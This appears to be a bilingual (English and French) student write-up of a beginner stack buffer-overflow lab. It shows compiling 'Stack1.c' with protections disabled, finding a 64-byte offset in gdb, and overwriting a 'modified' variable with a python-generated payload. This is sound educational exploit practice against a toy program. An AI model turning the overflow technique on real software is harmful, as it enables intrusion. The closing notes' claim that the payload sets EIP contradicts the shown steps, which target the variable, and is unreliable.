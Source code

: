 # Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack1.c -o Stack1
```


2. **Find interesting break point**
- Check for the use of any unsafe function, such as get/strcpy/fgets.
- - Find interest address for modified (0x080491eb)
```gdb
gdb -q ./Stack1
disas main
```
![Disas](Images\DisasMain.png)

3. **Offset Calculation**
- Calculate distance between buffer and and modified
```gdb
break *0x080491eb
run < AAAAAAAAAAAAAAAAAAA
```
![Break](Breakpoint.png)

```gdb
print &buffer
print &modified
print (char *)&modified - (char *)&buffer
64 #Now test offset plus payload
```
![Offset](Images\Offset.png)

4. **Build Payload and confirm** 
- Payload will look like
```bash
#From CMD line
./Stack1 "$(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")"

#From GDB
gdb --args ./Stack1 $(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")
break *0x080491eb
p/x modified
```

![Success1](Images\Success1.png)

![Success2](Images\Success2.png)


# What I learned

- **Little-endian awareness:** the target return address must be written in reverse byte order (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), or the CPU will read it backwards.
- **Exact offset still matters:** 64 bytes of padding gets you to the saved EIP just like in _stack0_; anything off by one leaves EIP untouched.
- **Proof of success:** running `./stack1 "$(python3 -c 'print(\"A\"*64 + \"\\x64\\x63\\x62\\x61\")')"` and checking GDB shows EIP = `0x61626364`, confirming the payload landed exactly where intended.

# Ce que j’ai appris

- **Penser little-endian :** l’adresse de retour doit être écrite à l’envers (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), sinon le processeur la lira à rebours.
- **L’offset reste crucial :** 64 octets de bourrage atteignent pile l’EIP sauvegardé ; un seul ocet de plus ou de moins et l’EIP reste intact.
- **Preuve à l’appui :** la commande  
    `./stack1 "$(python3 -c 'print("A"*64 + "\\x64\\x63\\x62\\x61")')"`  
    exécutée sous GDB affiche EIP = `0x61626364`, confirmant que la charge utile tombe exactement au bon endroit.
